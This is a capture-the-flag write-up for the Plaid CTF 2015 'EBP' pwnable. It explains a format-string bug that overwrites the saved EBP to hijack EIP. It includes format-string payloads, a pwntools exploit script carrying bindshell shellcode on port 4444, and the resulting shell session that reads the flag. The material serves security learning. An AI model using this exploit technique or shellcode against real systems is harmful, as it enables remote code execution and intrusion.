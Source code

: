 # Plaid CTF 2015: EBP

**Category:** EBP
**Points:** 160
**Description:** 

>Pwnable (160 pts)
>nc 52.6.64.173 4545 
>
>Download: [%p%o%o%p](challenge/ebp.elf).

## Write-up

We start by first checking the binary:

>```bash
>$ file ebp
>ebp: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf994804ecd68699809b56d85dbba1038de9f74b0, not stripped
>```

A stripped 32-bit ELF binary. Let's see what checksec has to say:

>```bash
>gdb-peda$ checksec
>CANARY    : disabled
>FORTIFY   : disabled
>NX        : disabled
>PIE       : disabled
>RELRO     : Partial
>```

Ok, no protections to worry about. Let's load EBP into IDA and decompile it:

>```c
>int __cdecl main(int argc, const char **argv, const char **envp)
>{
>  int result; // eax@3
>
>  while ( 1 )
>  {
>    result = (int)fgets(buf, 1024, stdin);
>    if ( !result )
>      break;
>    echo();
>  }
>  return result;
>}
>
>int echo()
>{
>  make_response();
>  puts(response);
>  return fflush(stdout);
>}
>
>int make_response()
>{
>  return snprintf(response, 0x400u, buf);
>}
>```

We can spot a very straight-forward format string bug in make_response (where we control the format specifier in buf). Let's first try to dump the stack with it:

>%x.%x.%x.%x.%x.
>b76147a0.b7754ff4.0.bfa14cb8.804852c

Given that buf is a variable stored in the .bss section, no matter how far into the stack we dig, we won't encounter our own buffer so we won't get the usual write-anything/anywhere situation. But if we look at our stack dump we can see that the 5th DWORD on the stack is the return address from the call to make_response, indicating the 4th DWORD is the old EBP value. If we can overwrite the old EBP value we know that at the function epilogue handling it will do the following:

>```asm
>leave
>retn
>```

Which allows us to effectively:

>```asm
>mov eip, [old_ebp+4]
>```

So let's say we want to overwrite old EBP with 0x41414141:

>(364931861*2+364931860 + 3) = 0x41414141

We craft the following format string:

>%364931861x.%364931861x.%364931860x.%n

So if we can point old_ebp to 4 bytes before an address holding the address we want to overwrite eip with we hijack control flow. Given that our buf is located in the static .bss section at 0x0804A080 we can overwrite old_ebp with (0x0804A080-4) = 0x0804A07C and use the following string:

>AAAA%44840317x%44840317x%44840318x%n

To overwrite EIP with 0x41414141. Now for the final part we need to put our shellcode in our buffer and overwrite EIP with the address of our shellcode. eip_overwrite = (0x0804A080 + n) where n is the length of the FMS exploit (36 bytes) so eip_overwrite = 0x0804A0A4 giving the fms exploit: \xA4\xA0\x04\x08%44840317x%44840317x%44840318x%n<shellcode>

Note that we will need to keep our original socket open in order to prevent xinetd (which is running the challenge) from killing the exploited process.

The following dirty [little exploit](solution/ebp_sploit.py) will do the trick:

>```python
>#!/usr/bin/python
>#
># Plaid CTF 2015
># EBP (PWN/160)
>#
># @a: Smoke Leet Everyday
># @u: https://github.com/smokeleeteveryday
>#
>
>from pwn import *
>
>#
># Linux bindshell port 4444
>#
>buf =  ""
>buf += "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66"
>buf += "\xcd\x80\x5b\x5e\x52\x68\x02\x00\x11\x5c\x6a\x10\x51"
>buf += "\x50\x89\xe1\x6a\x66\x58\xcd\x80\x89\x41\x04\xb3\x04"
>buf += "\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93\x59\x6a\x3f"
>buf += "\x58\xcd\x80\x49\x79\xf8\x68\x2f\x2f\x73\x68\x68\x2f"
>buf += "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
>
>host = '52.6.64.173'
>#host = '127.0.0.1'
>port = 4545
>
>h = remote(host, port, timeout = None)
>
>print "[*]Sending exploit..."
>exploit = "\xA4\xA0\x04\x08%44840317x%44840317x%44840318x%n" + buf
>h.send(exploit + "\n")
>print "[+]Exploit sent!"
>msg = h.recv(1024)
>print msg
>
>h.close()
>```

Running it gives us:

>```bash
>$ python ebp_sploit.py
+] Opening connection to 52.6.64.173 on port 4545: Done
[*]Sending exploit...
> $ nc 52.6.64.173 4444
> id
> uid=1001(problem) gid=1001(problem) groups=1001(problem)
> ls /home/problem
> ebp
> flag.txt
> cat /home/problem/flag.txt
> who_needs_stack_control_anyway?
>```